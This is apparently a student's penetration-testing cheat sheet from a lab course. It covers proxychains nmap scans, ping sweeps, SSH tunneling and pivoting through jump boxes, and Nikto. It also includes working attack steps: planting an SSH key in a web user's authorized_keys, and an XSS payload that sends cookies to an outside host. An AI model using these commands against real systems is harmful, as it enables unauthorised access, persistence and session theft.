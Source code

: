 # Commands

## Scraping Data
- Prep
```pip install lxml requests```
- Script
```
#!/usr/bin/python
import lxml.html
import requests

page = requests.get('http://quotes.toscrape.com')
tree = lxml.html.fromstring(page.content)

authors = tree.xpath('//small[@class="author"]/text()')

print ('Authors: ',authors)
```
- What will it output?
```
Authors:  ['Albert Einstein', 'J.K. Rowling', 'Albert Einstein', 'Jane Austen', 'Marilyn Monroe', 'Albert Einstein', u’Andr\xe9 Gide', 'Thomas A. Edison', 'Eleanor Roosevelt', 'Steve Martin']
```

## proxychains nmap scripts
```
proxychains nmap -T5 --script=banner <ip>
proxychains nmap -T5 --script=http-enum <ip>
proxychains nmap -T5 --script=http-enum.nse <ip>
```

## finding a script
```
ls -l /usr/share/nmap/scripts | grep "something"
```

## TCPdump
sudo tcpdump -XXvvnni any tcp port 80


# Tunnels

## Setting up the connection
- set up connection to jump box
```
ssh -MS /tmp/jump student@10.50.35.126
```
- the /tmp/jump file is a socket

## Scanning IPs
- scan ips
```
for i in {1..254};do (ping -c 1 192.168.28.$i 2>/dev/null | grep "bytes from" &) ;done
```

## Dynamic tunnel
- now we need to set up the dynamic
```
ssh -S /tmp/jump jump -O forward -D9050
```
## Port Scans
- scan ports
```
proxychains nmap 192.168.28.97,98,100,105
```

## How to cancel the Port Forward
- Cancel your port forward
```
cntrl r <type part of command>
# change forward to cancel
ssh -S /tmp/jump jump -O cancel -D9050
```
## Forwarding to multiple ports at one time
- multiple forward to those vuln ports
```
ssh -S /tmp/jump jump -O forward -L2222:192.168.28.100:80 -L3333:192.168.28.100:2222
```
- you can forward to multiple ips

## Opening websites through the forward
- we can access the website via firefox on our lin-ops workstations 
```
firefox
```
- enter the loopback and the port 127.0.0.1:2222
## Tunneling to another device
- gonna use the shit out of this to authenticate to new system
```
ssh -MS /tmp/t1 creds@127.0.0.1 -p 3333
```
## Forwarding through the new tunnel
- theoretically after you scan the new net you find 192.168.50.10,20,30 - port 22
```
ssh -S /tmp/t1 t1 -O forward -L6666:192.168.50.10:22 -L7777:192.168.50.20:22
```
## Stepping through the tunnel
- making next step to tunnel
```
ssh -MS /tmp/t2 creds@127.0.0.1 -p 6666
```

## Website enumeration
```
--script=http-enum
```
## Nikto
```
nikto v -h <IP address>
```
> use with TCPdump.

## website exploitation commands
```
mkdir /var/www/directory/.ssh
cat ~/.ssh/id_rsa.pub
echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys
cat /users/home/directory/.ssh/authorized_keys
```
## ssh with keys
```
ssh -i .ssh/id_rsa -MS /tmp/demo www-data@10.50.28.11
```
## making your own HTTP server 
```
python3 -m http.server
```
> default port 8000

## XSS check
```
<script>alert('XSS');</script>
```
## Other XSS useful command
```
<script>document.location="http://10.50.30.229:8000/?username=student" + document.cookie;</script>
```
















